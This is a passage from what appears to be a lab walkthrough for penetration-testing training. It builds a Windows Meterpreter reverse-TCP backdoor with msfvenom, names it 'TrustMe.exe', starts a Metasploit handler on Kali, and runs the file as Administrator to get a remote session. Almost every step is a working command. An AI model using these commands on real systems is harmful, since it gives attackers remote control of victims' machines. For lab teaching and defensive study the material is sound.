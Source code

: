 <pre>ifconfig</pre>

<img width="660" height="419" alt="image" src="https://github.com/user-attachments/assets/d88c93b2-c80f-4a88-ba71-3e82cbcf20a2" />


**REMEMBER: YOUR IP WILL BE DIFFERENT**

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

<img width="646" height="148" alt="image" src="https://github.com/user-attachments/assets/d84a0070-9c3f-47cb-b1b4-ea447ddbdeef" />



Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

<img width="71" height="68" alt="image" src="https://github.com/user-attachments/assets/5f116093-6854-4e55-a231-0c42359dc163" />


Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your Linux IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

<img width="636" height="405" alt="image" src="https://github.com/user-attachments/assets/ca5787cd-967d-45b0-ac90-327b4eabfe69" />


We will need to open a **"cmd.exe"** terminal as **Administrator**.

<img width="53" height="40" alt="image" src="https://github.com/user-attachments/assets/47d5e363-0b2a-4009-a117-6103db26870d" />



let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!
